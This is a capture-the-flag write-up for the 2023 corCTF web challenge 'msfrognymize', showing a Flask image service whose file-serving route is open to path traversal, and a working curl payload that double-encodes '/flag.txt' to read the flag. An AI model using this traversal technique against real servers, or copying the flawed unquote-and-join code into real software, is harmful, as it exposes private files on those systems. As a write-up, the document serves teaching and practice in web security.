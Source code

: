 ```yaml
---
title: 2023 corCTF - msfrognymize
author: Gr33nM0nk3y
date: 2023-07-31 00:00:00 +0700
categories: [Write-ups, 2023corCTF]
tags: [Web Exploitation, write-ups]
---
```


* 64 solves / 147 points
* author: jazzpizazz

## Description

> At CoR we care greatly about privacy (especially FizzBuzz). For this reason we anonymize any selfies before sharing them on Discord. We even encrypt the metadata using a special key!

### Attached

[msfrognymize.tar.gz](https://static.cor.team/uploads/edd98f8d859b22e2924932ef6936368031f76825e6534413ca95f2c34ef0cac4/msfrognymize.tar.gz)

```python
import os
import piexif
import tempfile
import uuid

from PIL import Image, ExifTags
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes, hmac
from flask import Flask, request, send_file, render_template
from urllib.parse import unquote
from werkzeug.utils import secure_filename

from celery_config import celery_app
from tasks import process_image

app = Flask(__name__)

celery_app.conf.update(app.config)

UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()


def hmac_sha256(data):
    h = hmac.HMAC(ENCRYPTION_KEY, hashes.SHA256(), backend=default_backend())
    h.update(data)
    return h.finalize().hex()


def encrypt_exif_data(exif_data):
    new_exif_data = {}
    for tag, value in exif_data.items():
        if tag in ExifTags.TAGS:
            tag_name = ExifTags.TAGS[tag]
            if tag_name == "Orientation":
                new_exif_data[tag] = 1
            else:
                new_exif_data[tag] = value
        else:
            new_exif_data[tag] = hmac_sha256(value)
    return new_exif_data


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files['file']
        if file:
            try:
                img = Image.open(file)
                if img.format != "JPEG":
                    return "Please upload a valid JPEG image.", 400

                exif_data = img._getexif()
                encrypted_exif = None
                if exif_data:
                    encrypted_exif = piexif.dump(encrypt_exif_data(exif_data))
                filename = secure_filename(file.filename)
                temp_path = os.path.join(tempfile.gettempdir(), filename)
                img.save(temp_path)

                unique_id = str(uuid.uuid4())
                new_file_path = os.path.join(UPLOAD_FOLDER, f"{unique_id}.png")
                process_image.apply_async(args=[temp_path, new_file_path, encrypted_exif])

                return render_template("processing.html", image_url=f"/anonymized/{unique_id}.png")

            except Exception as e:
                return f"Error: {e}", 400

    return render_template("index.html")


@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')


if __name__ == '__main__':
    app.run()

```

## Analyzation

These are important lines

```python
UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()

@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```

All the images are stored in ```uploads/``` directory.

When a ```GET``` request is sent to ```/anonymized/<image_file>```, it will:
- URL decode the image filename ```<image_file>```, and join the path ```UPLOAD_FOLDER``` by ```os.path.join()``` function.
- Check if ```..``` and the filepath ```uploads/<image_file>``` exists in the ```file_path``` or not.
- Send the image to the client.

[Path traversal](https://owasp.org/www-community/attacks/Path_Traversal) is the answser for this problem. But how??

- Firstly, we need to bypass the ```..``` filter. The ```unquote()``` decode only ONE TIME (!) So double encoding will work.
- Secondly, the ```os.path.join()``` function itself vulnerable. Because [python.org document](https://docs.python.org/3/library/os.path.html#os.path.join) says
```
If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.
```

So just give them absolute path of flag, ```/flag.txt```.

## Solution

```sh
curl https://msfrognymize.be.ax/anonymized/%252Fflag.txt
```

The flag is
```
corctf{Fr0m_Priv4cy_t0_LFI}
```